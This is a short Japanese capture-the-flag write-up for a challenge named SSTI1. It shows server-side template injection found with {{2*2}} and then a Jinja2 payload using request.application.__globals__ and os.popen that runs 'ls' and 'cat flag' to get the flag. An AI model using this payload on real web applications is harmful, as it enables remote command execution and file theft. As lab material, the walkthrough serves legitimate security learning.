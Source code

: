 ## SSTI1

### Description  

I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps!

要約すると、
なんかすごいwebサイトを作ったようだ

---

早速、webサイトにアクセスする。  
下のようなwebサイトが開く。


![](./TTL1(1).png)

欄にHelloと入力する。h1タグで Helloと表示された。

開発者ツールを使って、
Serverが python3.8.10という情報が得られた。


欄に {{2*2}} と入力する。h1タグで 4 と表示された。  
コード実行は可能ということが分かった。

[CTFのWebセキュリティにおけるSSTIまとめ](https://blog.hamayanhamayan.com/entry/2021/12/15/225142)

上を参考にして、欄に下のようなコード実行をしてみる
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
下のようなファイルがある。

```
__pycache__ 
app.py
flag
requirements.txt
```

flagファイルが怪しいので、catする。
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

flagがゲットできた。
